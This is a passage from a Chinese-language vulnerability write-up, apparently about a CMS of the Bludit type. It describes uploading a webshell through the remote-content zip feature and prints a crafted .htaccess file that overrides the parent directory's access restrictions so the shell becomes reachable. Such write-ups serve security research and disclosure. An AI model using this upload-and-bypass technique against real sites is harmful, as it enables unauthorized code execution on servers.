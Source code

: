 在/bl-content/workspaces/remote-content路径下，可以发现remote-content.zip压缩包解压的文件夹

![image-20210629190349240](/images/image-20210629190349240.png)

说明通过这个方法上传webshell是可行的，但是在他们的服务器上测试时，访问上传的webshell会返回404，这是因为.htaccess文件限制了文件夹的访问。

![image-20210629190508281](/images/image-20210629190508281.png)

.htaccess 文件中的配置指令作用于 .htaccess 文件所在的目录及其所有子目录，但是需要注意的是，其上级目录也可能会有 .htaccess 文件，而指令是按查找顺序依次生效的，所以一个特定目录下的 .htaccess 文件中的指令可能会覆盖其上级目录中的  .htaccess 文件中的指令，即子目录中的指令会覆盖父目录或者主配置文件中的指令，所以在上传的webshell目录下也添加一个.htaccess文件，内容如下：

```
AddDefaultCharset UTF-8

<IfModule mod_rewrite.c>

# Enable rewrite rules
RewriteEngine on

# Base directory
RewriteBase /

# Deny direct access to the next directories
RewriteRule ^bl-content/(databases|workspaces|pages|tmp)/.*$ - [R=200,L]

# All URL process by index.php
RewriteCond %{REQUEST_FILENAME} !-f
RewriteCond %{REQUEST_FILENAME} !-d
RewriteRule ^(.*) index.php [PT,L]

</IfModule>
```
